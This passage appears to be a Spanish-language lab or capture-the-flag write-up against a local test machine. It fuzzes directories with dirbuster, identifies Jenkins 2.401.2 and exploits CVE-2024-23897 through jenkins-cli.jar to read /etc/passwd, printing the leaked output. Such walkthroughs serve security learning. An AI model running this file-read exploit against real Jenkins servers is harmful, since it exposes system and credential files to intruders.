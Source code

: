 En el puerto *80* encontramos la pagina por defecto del servidor **apache**
![apache]({{'/assets/img/Leak/apache-inicio.png' | relative_url}})

Lanzo **dirbuster** para hacer fuzzing de directorios
```bash
❯ dirbuster -u http://192.168.2.8 -l /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /icons/ - 403
File found: /connect.php - 200
Dir found: /icons/small/ - 403
DirBuster Stopped
```
Solo obtengo un archivo con extension *php* pero nada mas.

Por otro lado en el puert 8080 nos encontramos con **jenkins** un servidor de automatizacion 

![jenkins]({{'/assets/img/Leak/jenkins.png' | relative_url}})

En la esquina inferior derecha aparece la version **Jenkins 2.401.2**, asi que voy a buscar posibles vulnerabilidades que existentes para esta version.

Busco en el github del vulhub que contiene algunos exploits sobre jenkins.

En el siguiente * Enlace [Jenkins Arbitrary File Read Vulnerability Through the CLI (CVE-2024-23897](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897)

Debemos descargarnos el archivo **jenkins-cli.jar y le damos permisos de ejecucion.
```bash
❯ wget http://192.168.2.8:8080/jnlpJars/jenkins-cli.jar
--2024-04-07 00:31:44--  http://192.168.2.8:8080/jnlpJars/jenkins-cli.jar
Conectando con 192.168.2.8:8080... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3447904 (3,3M) [application/java-archive]
Grabando a: «jenkins-cli.jar»

jenkins-cli.jar                                       100%[======================================================================================================================>]   3,29M  --.-KB/s    en 0,03s   

2024-04-07 00:31:44 (124 MB/s) - «jenkins-cli.jar» guardado [3447904/3447904]

❯ chmod +x jenkins-cli.jar 
```
Siguiendo lo pasos voy a intentar leer el archivo **/etc/passwd** y comprovar que todo funciona.

```bash
❯ java -jar jenkins-cli.jar -s http://192.168.2.8:8080/ -http connect-node "@/etc/passwd"
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: No such agent "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin" exists.
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin: No such agent "_apt:x:100:65534::/nonexistent:/usr/sbin/nologin" exists.
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin: No such agent "systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin" exists.
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin: No such agent "gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin" exists.
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin: No such agent "systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin" exists.
avahi:x:107:114:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin: No such agent "avahi:x:107:114:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin" exists.
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin: No such agent "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin" exists.
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin: No such agent "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin" exists.
```